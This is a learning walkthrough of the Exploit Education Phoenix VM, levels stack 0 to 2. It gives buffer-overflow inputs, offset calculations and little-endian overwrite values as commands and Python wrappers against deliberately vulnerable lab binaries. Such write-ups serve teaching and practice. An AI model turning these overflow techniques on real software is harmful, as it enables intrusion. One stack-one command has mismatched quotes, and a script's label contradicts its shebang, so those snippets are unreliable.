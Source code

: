 ```yaml
---
title: "Phoenix"
date: 2020-03-23T11:24:34-04:00
draft: false
description: "Adventures in Learning ROP (Return Oriented Programming) | Using Exploit-Exercises Phoenix VM Image"
---
```


**Description:** 

The Phoenix VM Image can be found here:  https://exploit.education/phoenix/

The virtual machine containers a number of vulnerable executables that allow students to learn stack, format-string, and heap-based overflows. The stack series contains executables stack 0-6. Format string vulnerabilities include format 0-4, and the heap vulnerabilitites include heap 0-3.  

# Stack 0

Running ./stack-zero provides us with a place to enter some data. Entering a random sequence "AAAA" gives us the output:  ```Uh oh, 'changeme' has not yet been changed. Would you like to try again?```

Trying to send the program even more data (since this is a BoF lab) results in a successful completion of the challenge. 
```
python -c 'print "A" * 100' | ./stack-zero

Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```


# Stack 1  

```bash
pattern_create.rb -l 100
```  

```bash
./stack-one Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A  
```

>Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x63413163, we want 0x496c5962


```bash
pattern_offset -l 0x63413163

[*] Exact match at offset 64  
```  

Since we know there is a buffer size of 64 before we write to the changeme address space, we can write 64 bytes of garbage, followed by the intended value to store, written in little-endian so that it can be properly stored in memory. 

```bash
python -c 'print "A" * 64 + "\x62\x59\x6c\x49"'
```



The above will print 64 A's followed by the little-endian address.  

We can pass this to the stack-one executable as such:  


__python__
```bash
./stack-one $($python -c 'print "A" * 64" + "\x62\x59\x6c\x49"')
```
>Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value  


__python3__
```bash
./stack-one $(python3 -c 'print("A"*64 + "\x62\x59\x6c\x49")')
```

>Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value



# Stack 2

First running ./stack-two tells us to set the ExploitEducation environment variable.

$ export ExploitEducation="test"
./stack-two

> Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a

Bummer it looks the program is reading from the environment variable and that is where we can overflow the buffer
to set the changeme value that we need to pass the challenge.

__python 2__
```bash
export ExploitEducation=$(python -c 'print "A" * 64 + "\x0a\x09\x0a\x0d"')
```

__python3__
```bash
export ExploitEducation=$(python3 -c 'print("A"*64+"\x0a\x09\x0a\x0d")')
```

As python scripts:

__python2__
```python
#!/usr/bin/python3

import os

#0x0d0a090a
#os.environ["ExploitEducation"] = "$(python3 -c 'print(\"A\" * 64 + \"\\x0a\\x09\\x0a\\x0d\")')"

os.system("ExploitEducation=$(python -c 'print \"A\"*64 + \"\\x0a\\x09\\x0a\\x0d\"') /opt/phoenix/amd64/stack-two")
```

__python3__
```python3
#!/usr/bin/python3
import os

os.system("ExploitEducation=$(python3 -c 'print(\"A\"*64 + \"\\x0a\\x09\\x0a\\x0d\")') /opt/phoenix/amd64/stack-two")
```







